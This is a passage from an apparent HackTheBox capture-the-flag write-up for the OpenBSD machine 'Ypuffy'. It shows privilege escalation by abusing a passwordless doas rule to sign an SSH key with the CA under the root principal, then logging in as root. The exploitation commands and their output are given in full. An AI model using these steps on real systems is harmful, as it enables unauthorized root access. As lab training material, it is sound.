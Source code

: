 OpenBSD has a `sudo` equivalent called `doas`:

```
ypuffy$ cat /etc/doas.conf                                                                                                                                                              
permit keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
```

It seems we can run `ssh-keygen` as user `userca` without entering a password.

```
ypuffy$ ssh-keygen -t ecdsa 
Generating public/private ecdsa key pair.
Enter file in which to save the key (/home/alice1978/.ssh/id_ecdsa): /tmp/id_ecdsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_ecdsa.
Your public key has been saved in /tmp/id_ecdsa.pub.
The key fingerprint is:
SHA256:kbrMU2l1XcB9DEIKw58lsyYFz03VMLDuEPgQrXQWW3c alice1978@ypuffy.hackthebox.htb
The key's randomart image is:
+---[ECDSA 256]---+
|       .=o.o*+BBE|
|        oOB*.=.+=|
|       .=*B*+ . .|
|       .o*=+     |
|      . Soo .    |
|     o +   o     |
|      =     .    |
|       .         |
|                 |
+----[SHA256]-----+
```

We can generate a new DSA keypair for Alice and get it sign by the CA, making sure to assign the root's principal name `3m3rgencyB4ckd00r`"

Here's the breakdown of the `ssh-keygen` parameters used:
 - `-s` : this is the private key that will be used to sign the keys
 - `-I` : that's the certificate identity
 - `-n` : the principals associated with the key (we need to include `3m3rgencyB4ckd00r`)
 - `-V` : validity of the key
 - `-z` : serial number
 - `id_ecdsa.pub` : The public key we previously generated

```
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I snowscan -n root,3m3rgencyB4ckd00r -V +1w -z 1 id_ecdsa.pub
Signed user key id_ecdsa-cert.pub: id "snowscan" serial 1 for root,3m3rgencyB4ckd00r valid from 2018-09-15T20:07:00 to 2018-09-22T20:08:02
ypuffy$ mkdir /home/alice1978/.ssh
ypuffy$ cp id_ecdsa* /home/alice1978/.ssh 
ypuffy$ ssh root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:oYYpshmLOvkyebJUObgH6bxJkOGRu7xsw3r7ta0LCzE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.
```